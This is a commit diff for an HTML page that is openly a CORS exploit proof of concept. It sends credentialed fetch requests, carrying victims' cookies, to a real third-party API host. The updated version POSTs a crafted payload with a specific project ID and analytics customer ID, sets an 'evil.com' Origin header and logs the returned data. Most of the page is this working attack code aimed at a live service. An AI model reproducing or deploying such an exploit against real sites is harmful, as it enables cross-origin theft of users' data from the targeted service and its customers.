

Before and after one commit to AnonymousUser-sudo/Cors, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-916 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,59 +2,44 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
+    <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>CORS PoC by Vidhan Thakur</title>
-    <style>
-        body {
-            font-family: Arial, sans-serif;
-            background-color: #f4f4f9;
-            text-align: center;
-            padding: 50px;
-        }
-        h1 {
-            color: #333;
-        }
-        .container {
-            margin-top: 50px;
-        }
-        button {
-            padding: 10px 20px;
-            font-size: 18px;
-            background-color: #4CAF50;
-            color: white;
-            border: none;
-            border-radius: 5px;
-            cursor: pointer;
-        }
-        button:hover {
-            background-color: #45a049;
-        }
-    </style>
-</head>
-<body>
-    <h1>CORS PoC by Vidhan Thakur</h1>
-    <div class="container">
-        <p>Click the button below to exploit the CORS vulnerability.</p>
-        <button id="exploitButton">Exploit</button>
-    </div>
-
+    <title>CORS Exploit PoC</title>
     <script>
-        document.getElementById('exploitButton').addEventListener('click', function() {
-            // Trigger the CORS exploit when button is clicked
+        function exploit() {
             fetch('https://exponea-api.alshaya.com/bulk', {
-                method: 'GET',
-                credentials: 'include' // Send cookies with the request
+                method: 'POST',
+                credentials: 'include',
+                headers: {
+                    'Content-Type': 'text/plain;charset=UTF-8',
+                    'Origin': 'https://evil.com'
+                },
+                body: JSON.stringify({
+                    "sdk": "js-client",
+                    "sdk_version": "v3.27.0",
+                    "sdk_snippet_version": "v1.0.0",
+                    "commands": [{
+                        "name": "system/ids",
+                        "data": {
+                            "project_id": "78e50322-2007-11ea-9428-62206df291c3",
+                            "customer": {
+                                "google_analytics": "1679285112.1728728817"
+                            },
+                            "expires": 1823336817
+                        }
+                    }]
+                })
             })
             .then(response => response.json())
             .then(data => {
-                // Display the result in a popup window
-                const result = JSON.stringify(data, null, 2);
-                alert('CORS Exploit Result: ' + result);
+                console.log('Exploit successful:', data);
             })
-            .catch(error => {
-                alert('Error: ' + error);
-            });
-        });
+            .catch(error => console.error('Error:', error));
+        }
     </script>
+</head>
+<body>
+    <h1>CORS Exploit Demonstration</h1>
+    <button onclick="exploit()">Run Exploit</button>
 </body>
 </html>
```
